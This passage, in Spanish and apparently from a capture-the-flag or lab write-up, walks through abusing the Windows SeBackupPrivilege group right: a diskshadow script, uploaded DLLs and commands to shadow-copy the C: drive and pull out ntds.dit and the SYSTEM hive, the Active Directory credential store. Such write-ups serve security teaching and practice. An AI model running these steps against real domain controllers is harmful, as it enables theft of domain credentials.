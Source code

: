 Investigando sobre ese grupo llegamos a este [articulo](https://github.com/giuliano108/SeBackupPrivilege) y con ayuda de [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) nos apoyaremos para obtener un backup del sistema y extraer el archivo **ntds.dit** y posteriormente el **system.hive**.

Primero creamos nuestro script que ejecutara **diskshadow** y lo subimos al servidor al igual que **SeBackupPrivilegeCmdLets.dll** y **SeBackupPrivilegeUtils.dll**.

> Es necesario agregar una letra de más después de cada línea ya que al ejecutar el comando se borrara una letra por línea.

##### shadow.txt
```
set metadata c:\temp\metadata.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias dooms
creates
expose %doom% w:s
end backups
```

- `mkdir C:\temp\`
- `upload tools/shadow.txt`
- `upload tools/SeBackupPrivilegeCmdLets.dll`
- `upload tools/SeBackupPrivilegeUtils.dll`

![13](img/13.png)

